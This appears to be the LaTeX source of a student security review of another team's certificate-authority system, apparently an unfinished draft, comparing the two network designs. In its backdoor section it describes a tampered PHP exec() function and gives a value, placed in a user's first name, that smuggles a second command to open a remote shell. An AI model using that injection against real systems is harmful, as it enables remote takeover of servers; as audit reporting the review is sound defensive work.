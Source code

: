 \documentclass{article}
\begin{document}
\subsection{Batman.jpg}
As mentioned above in the white-box analysis, this publicly available image could hide any kind of information. We were not able to get any kind of prove that this is the case. Still, we would strongly suggest to remove this file from the production servers.

\subsection{PHP/exec() backdoor}
After analyzing the self compiled binaries and especially having a look at the shell\_exec() and exec() functions, we came to the conclusion, that there is a hidden backdoor in the exec() function. We think that exec() function splits the string it gets on each semicolon character and then only executes the second slice. This provides an attacker with a way to execute any code even if all input arguments are sanitized with escapeshellarg(). Additionally the firewall forwards all connections from the core server to any external ip on port 1234.

This can be used by changing the first name of a user to ;rshell 10.1.0.2 1234; and creating a new certificate. This results in the server opening a new shell and binding it to a socket connection to the provided ip and port. Combined with the CSRF and XSS vulnerability above, this enables an attacker to compromise the whole system.

\section{Comparison}
Comparing both systems, the first thing that we noticed was the lack of separation in the reviewed system. They also have a designated firewall which filters traffic but they have combined all functionality (webserver, CA core and even backup) onto one single server. In contrast to that, our system has four different zones, the internet, the network where employees have their workstations, the DMZ which hosts the webserver and is the only machine accessible from outside by non administrators, as well as the intranet which hosts the CA functionality on one server an the backup and key archive on another server. The access control to all those networks is handled by the firewall.

For remote access our system provides we use VPN where the reviewed systems just forwards the SSH ports which both seems to work.

Another major difference is the handling of user data change. Where in the reviewed system users can change data as they like and thus potentially impersonate other people, our system implements a review of user data changes other than the password to ensure the authenticity of a certificate.

WRITE SOMETHING ABOUT THAT: Are there any remarkable highlights in your system or the external system?
\end{document}
